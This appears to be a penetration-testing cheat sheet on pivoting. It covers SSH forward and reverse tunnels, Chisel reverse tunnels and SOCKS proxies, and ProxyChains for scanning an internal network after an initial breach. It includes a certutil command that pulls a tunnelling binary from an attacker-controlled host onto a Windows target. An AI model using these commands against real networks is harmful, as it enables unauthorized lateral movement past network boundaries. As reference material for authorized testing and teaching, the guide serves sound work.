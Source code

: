 ## 1. SSH Tunnels

### 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

### 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

#### 1.2.1. Forward static tunnel

##### Syntax

```sh
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](images/ssh-forward-static.png)

```sh
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

#### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

##### Syntax

```sh
ssh -D [bind_address:]port [user@]hostname
```

##### Example

![image](images/ssh-forward-dynamic.png)

```sh
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

### 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

> [!Tip]
> 
> ##### For remote port forwarding:
> 
> - By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
> - Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces
>
> ```sh
> sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
> ```

#### 1.3.1. Reverse static tunnel

##### Syntax

```sh
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](images/ssh-reverse-static.png)

```sh
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

#### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

##### Syntax

```sh
ssh -R [bind_addr:]port [user@]hostname
```

##### Example

![image](images/ssh-reverse-dynamic.png)

```sh
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

## 2. Chisel tunnels

> [!Tip]
>
> [Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

### 2.1. Preparing chisel binaries

Prepare server on Kali:

```sh
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```sh
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gzip -d chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```sh
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

### 2.2. Chisel server configuration

##### Syntax

```sh
chisel server --reverse --port <port>
```

##### Example

```sh
chisel server --reverse --port 8080
```

### 2.3. Chisel Client configuration

#### 2.3.1. Reverse port forwarding

##### Syntax

```sh
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

##### Example

![image](images/chisel-reverse.png)

```sh
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

### 2.3.2. Reverse SOCKS proxy

##### Syntax

```sh
chisel client <server> R:socks
```

##### Example

![image](images/chisel-reverse-socks.png)

```sh
chisel client 192.168.2.61:8080 R:0.0.0.0:socks
```

## 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```sh
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```sh
proxychains -q nmap -Pn -sT -A 10.0.2.0/24
```

> [!Note]
> 
> ProxyChains only work for TCP traffic, i.e. ICMP and SYN scans will not work over Proxy Chains
>
> ☝️ nmap scan will actually be crawlingly slow, try to use the pivot box to scan instead
